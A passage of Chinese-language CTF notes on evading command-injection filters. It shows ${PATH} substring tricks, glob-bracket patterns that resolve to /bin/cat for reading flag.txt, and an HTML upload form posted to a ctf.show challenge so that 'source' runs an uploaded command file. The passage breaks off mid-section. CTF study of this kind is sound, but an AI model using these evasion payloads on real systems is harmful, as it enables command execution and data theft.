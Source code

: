     相当于把ls的结果使用echo输出

## "${}"截取环境变量拼接

例子

    ${PATH:14:1}${PATH:5:1} flag.txt
     
    在此环境中相当于 nl flag.txt

## []中括号匹配绕过

例如[a-c] 代表匹配 a-b之间的字符,包括a,b字符本身

匹配范围为当前目录

例子

    /[a-c][h-j][m-o]/[b-d]a[s-u] flag.txt
     
    相当于
    /bin/cat flag.txt
     
    因为[]匹配范围只在当前路径
    所以要为bin绝对路径

## source命令

source命令，又称点命令,可以用点号( . ),代替

该命令可以读取并执行文件中的命令

可构建文件上传表单，上传命令文件执行

表单为：

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>POST数据包POC</title>
    </head>
    <body>
    <form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
    <!--链接是当前打开的题目链接-->
        <label for="file">文件名：</label>
        <input type="file" name="file" id="file"><br>
        <input type="submit" name="submit" value="提交">
    </form>
    </body>
    </html>

get请求为
